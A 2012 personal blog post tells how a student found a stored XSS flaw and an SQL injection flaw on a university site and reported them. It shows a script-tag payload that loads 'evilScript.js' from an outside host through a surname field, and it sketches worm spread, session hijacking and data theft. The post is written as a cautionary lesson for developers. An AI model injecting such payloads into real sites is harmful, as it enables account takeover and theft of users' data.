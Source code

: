 +++
title = "How I hacked a site"
date = 2012-08-30T00:58:00Z
updated = 2013-08-23T02:40:42Z
aliases = ["/2012/08/how-i-hacked-site.html"]
tags = ["Programming", "websites", "xss", "Hacking", "sql injection"]
blogimport = true
author = "Ivan du Toit"
authorLink = "https://plus.google.com/109733145121386015159"
+++

I did no harm so don't start booing me before you read the whole story, I just went far enough to prove that in fact there was an exploitable security issue -  and I must admit also showed off to one of my friends by greeting him by name once he logged into the site. I also reported the vulnerabilities to the appropriate people.<br /><h3>How this came about.</h3><div><br /></div>Exam time is a weird time for students, they start experiencing the taste of the holidays while actually performing under the academic pressure of having to pass.<br /><br />In the middle of my exams I was having problems sleeping due to the stress  of the exams. During one of these periods of stress induced insomnia I decided that I would rather be doing something than just lying in bed. So I grabbed my netbook and started to surf the net, at some stage I ended up on the computer science site to check if there was any news related to my course. So there I was 2:30 AM browsing around the site when I had this crazy idea: Is this site secure? I don't know why I had that thought but there it was and since I wasn't sleeping anyway, so I decided to give the site a test.<br /><br />First I had a crack at the user login form but that was hardened against my primitive attacks, but is this true for the whole site or is there some area that the other students before me have not yet checked? So I tried a few of the other forms on the site for <a href="http://en.wikipedia.org/wiki/SQL_injection">SQL injection</a> vulnerabilities but found none but that is to be expected. But what I did find was a <a href="http://en.wikipedia.org/wiki/Cross-site_scripting">XSS</a> vulnerability in the member details form. I could inject a script tag that was not escaped into my surname.  But you might say that is not a big deal is it? It seems so innocent to add<br /><div>{{< highlight html >}}&lt;script&gt;alert("Hello World");&lt;/script&gt; &nbsp;{{< /highlight >}}</div>to&nbsp;my surname. But I could also change that to<br /><div><div>{{< highlight html>}}&lt;script src="example.com/evilScript.js"&gt;&lt;/script&gt;{{< /highlight >}}</div></div><br />Which does not look half as cute does it? After some brain storming I thought of ways to infect other users by updating there details in the back ground to include my script in there surname! This infection happens whenever my surname was rendered by the browser! This boys and girls is a worm&nbsp;similar&nbsp;to the<a href="http://en.wikipedia.org/wiki/Samy_(computer_worm)"> myspace worm</a>! So it has gone viral now what?<br /><br />No it can not start the zombie&nbsp;apocalypse&nbsp;(I&nbsp;<strike>think&nbsp;</strike>hope). But it could do all of the following: <br /><ul><li><a href="http://en.wikipedia.org/wiki/Session_hijacking">Session Hijacking</a> </li><li>Steal passwords&nbsp;</li><li>Download other students code for assignments&nbsp;</li><li>Steal other students and lecturer's email address and other hidden personal information.</li><li>Post content as a lecturer or student.</li></ul><div>Pretty scary stuff for suck a innocent vulnerability!</div><div>I also found a SQL injection vulnerability but that to me is not very special because it is very common, yet so easy to prevent that I am just astounded that it exists.<br /><h3>Moral of the story</h3><div><br /></div>So yeah that is how I hacked a site.  I post about the experience both as a warning to other developers and to myself.<br /><ul><li>Innocent looking vulnerabilities can have very grave consequences.</li><li>Your security is only as strong as your weakest point.</li></ul>If this post makes just 1 site more secure I will be very happy. So go code but be safe.</div>
